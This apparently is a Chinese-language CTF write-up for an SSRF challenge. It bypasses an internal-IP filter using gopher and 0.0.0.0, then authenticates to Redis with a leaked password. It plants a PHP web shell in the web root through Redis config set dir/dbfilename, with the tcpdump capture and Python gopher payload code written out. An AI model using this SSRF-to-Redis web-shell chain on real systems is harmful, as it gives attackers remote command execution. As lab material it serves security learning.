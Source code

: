 tags:: [[CTFWEB/SSRF]], [[CTFWEB/Redis]]

-
- # 思路
	- 绕过题目的IP检测进行SSRF, 先打hint.php, 然后打带密码的redis
- # 绕过IP检测
	- 题目会检测IP和请求类型
		- `ip2long('127.0.0.0')>>24 == $int_ip>>24 || ip2long('10.0.0.0')>>24 == $int_ip>>24 || ip2long('172.16.0.0')>>20 == $int_ip>>20 || ip2long('192.168.0.0')>>16 == $int_ip>>16;`
		- `$match_result=preg_match('/^(http|https|gopher|dict)?:\/\/.*(\/)?.*$/',$url);`
	- 可以使用gopher配合`0.0.0.0`访问本地，绕过检测
- # hint.php
	- `file_put_contents($_POST['file'],"<?php echo 'redispass is root';exit();".$_POST['file']);`
	- 提示redis的密码是root
- # 带密码的redis
	- 首先在本地打开redis客户端和服务端，tcpdump抓包
		- `tcpdump -i lo -s 0 port 6379 -w redis.pcap`
	- 本地客户端操控本地服务端，tcp流被tcpdump记录
		- ```redis
		  set evilkey "\n\n<?php\nsystem($_POST['data']);\n?>\n\n"
		  config set dir /var/www/html/
		  config set dbfilename redis.php
		  save
		  ```
	- 用wireshark打开包，追踪TCP流，仅显示客户端发送的字符，以Raw格式显示，此时屏幕上的16进制数据就是客户端发送的字符，按照TCP包换行
		- ![Screenshot_2023-02-06_22-10-44.png](../assets/Screenshot_2023-02-06_22-10-44_1675692661358_0.png)
	- 将raw格式的数据转换成urlencode的数据，放入gopher协议中，发送
		- ```python
		  s = """
		  2a310d0a24370d0a434f4d4d414e440d0a
		  2a320d0a24340d0a617574680d0a24340d0a726f6f740d0a
		  2a330d0a24330d0a7365740d0a24370d0a6576696c6b65790d0a2433360d0a0a0a3c3f7068700a73797374656d28245f504f53545b2764617461275d293b0a3f3e0a0a0d0a
		  2a340d0a24360d0a636f6e6669670d0a24330d0a7365740d0a24330d0a6469720d0a2431340d0a2f7661722f7777772f68746d6c2f0d0a
		  2a320d0a24310d0a650d0a24390d0a72656469732e7068700d0a
		  2a340d0a24360d0a636f6e6669670d0a24330d0a7365740d0a2431300d0a646266696c656e616d650d0a24390d0a72656469732e7068700d0a
		  2a310d0a24340d0a736176650d0a
		  """.replace("\n", "")
		  
		  redis_payload = enc_dec.long_to_bytes(int(s, 16))
		  redis_payload = "gopher://0.0.0.0:6379/_" + enc_dec.urlencode(redis_payload)
		  r = base_get(url, params = {
		      "url": redis_payload
		  })
		  print(r.text)
		  ```
-